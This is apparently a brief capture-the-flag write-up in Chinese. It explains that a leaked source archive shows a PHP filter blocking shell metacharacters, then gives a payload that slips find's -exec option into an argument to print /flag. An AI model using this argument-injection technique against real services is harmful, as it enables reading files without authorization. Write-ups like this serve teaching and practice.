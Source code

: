 www.zip源码泄露，source.php里面进行了一个很严格的转义

```php
($argv[$i] == '&') ||
($argv[$i] == '>') ||
($argv[$i] == '<') ||
($argv[$i] == '(') ||
($argv[$i] == ';') ||
($argv[$i] == '|')
```

但是find命令有一个`-exec`参数，最后的payload为

```
a -exec cat /flag {} \;
```

即可得到flag